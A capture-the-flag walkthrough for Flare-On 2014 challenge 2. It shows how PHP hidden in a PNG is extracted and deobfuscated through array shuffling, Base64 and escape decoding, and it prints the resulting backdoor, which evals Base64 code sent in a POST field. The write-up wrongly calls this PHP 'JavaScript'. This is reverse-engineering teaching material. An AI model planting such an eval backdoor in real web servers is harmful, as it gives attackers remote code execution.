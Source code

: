 # Flare-On 2014 Challenge 2 Walkthrough: **`home.html`** Analysis

In this walkthrough, we’ll break down the process of analyzing the `home.html` file from the Flare-On challenge.  We will uncover the hidden content and extract the payload by utilizing Python scripts along with a hex editor.

## Table of Contents
- [Introduction](#introduction)
- [Step 1: Inspect `home.html` with Browser Developer Tools](#step-1-inspect-homehtml-with-browser-developer-tools)
- [Step 2: Examine `flare-on.png` for Embedded PHP Code](#step-2-examine-flare-onpng-for-embedded-php-code)
- [Step 3: Decode the PHP Code and Extract JavaScript](#step-3-decode-the-php-code-and-extract-javascript)
- [Step 4: The Flag](#step-4-the-flag)
- [References](#references)
---

## Introduction

In this challenge, the goal is to decode hidden content embedded in a PNG file via PHP code. The content is encoded in Base64 and contains escape sequences that must be resolved to reveal the final JavaScript code.

We'll walk through the steps of inspecting `home.html`, extracting PHP code from the `flare-on.png`, decoding Base64 strings, and decoding escape sequences to uncover the JavaScript payload.

---

## Step 1: Inspect `home.html` with Browser Developer Tools

![1 - Home Page](images/1-home-page.png)

1. **Open `home.html` in a browser**:
   - With developer tools enabled, open the `home.html` file.
   - Upon inspection, you'll notice that the HTML contains an image tag for `img/flare-on.png` and an embedded PHP script.
   - Specifically, you’ll see an unconventional PHP `include` statement inside a `<script>` tag, like this:

     ![2 - Inspected HTML](images/2-inspected-html.png)

2. **What this indicates**:
   - This suggests that PHP code might be embedded in the `flare-on.png` image file. We’ll need to analyze the image to extract the PHP code and proceed with further decoding.
   - The next step involves inspecting `flare-on.png` in a hex editor to extract the embedded PHP code.

---

## Step 2: Examine `flare-on.png` for Embedded PHP Code

1. **Open `flare-on.png` in a hex editor**:
   - We open `flare-on.png` using a hex editor. The goal here is to search for embedded PHP code.
   - Search for the string `<?php` to locate where the PHP code begins in the image.

2. **Extract the PHP code**:
   - The PHP code starts at offset `0x19c4` in the file.

     ![3 - PHP in Png](images/3-php-in-png.png)
     
   - Copy the PHP code from this offset and save it to a new file called `extracted_php.php`.

3. **PHP Code Breakdown**:
    - Contains an array `$terms` with 80 characters and another array `$order` that defines the order in which these characters will be rearranged to form a string.
    - Uses the `$order` array to shuffle characters from the `$terms` array to create a string. The result is stored in the `$do_me` variable, which will be executed later as part of the hidden payload.
      
      ![5 - Extracted PHP](images/5-extracted-php.png)
---

## Step 3: Decode the PHP Code and Extract JavaScript

1. **Python Conversion**:
   - After extracting the PHP code, we convert it into Python. The goal is to simulate the PHP array shuffling process and extract the resulting string (the `$do_me` variable).
   
   Here is a simplified breakdown of the Python script `converted_php.py`:
   
   ```python
   terms = ["..."]  # 80 characters from PHP code
   order = [...]  # Indices for the character order

   do_me = ''.join([terms[i] for i in order])
   print(do_me)
   ```

   The Python script prints the resulting value of `$do_me`, which contains a Base64-encoded JavaScript code.
   
      ![4 - Printed Do_me](images/4-printed-do-me.png)
   
3. **Base64 Decoding**:
   - We then use the Python script `convert_js.py` to decode the Base64-encoded JavaScript.
   - The process involves:
     - Decoding two Base64-encoded strings: one for `$_` and another for `$__`.
     - Combining both strings to form a partially obfuscated JavaScript code.

   - The Python script also decodes hexadecimal (`\x4F`) and decimal (`\97`) **escape sequences** in the decoded code. This results in the following final JavaScript code:

   ```javascript
   if (isset($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])) { 
       eval(base64_decode($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])); 
   }
   eval(base64_decode($_));
   eval($code);
   ```

   This JavaScript contains functionality to execute Base64-decoded content received through a POST request, which is a typical web-based payload.

---

## Step 4: The Flag

The de-obfuscated JavaScript reveals an important action: it checks for a specific POST request and decodes its Base64 content. This can be used to trigger further actions on the server or extract sensitive information.

  - **Flag:**
    ```
    Original: a11DOTthatDOTjava5crapATflareDASHonDOTcom
    Readable: a11.that.java5crap@flare-on.com
    ```

---

## References
- **Hex Editor**: Allows you to see the raw binary content of a file, making it possible to find hidden data or scripts embedded within files.

- **Browser Developer Tools**: Provide an easy way to explore the structure and content of a web page.

- **Base64 Decoder**: Often used to obfuscate data, and decoding it reveals the original payload.

- **Escape Sequence Decoder**: The final step involved decoding hexadecimal and decimal escape sequences.
   - These sequences represent characters encoded in a way that obfuscates the code further, and resolving them makes the code readable and executable.
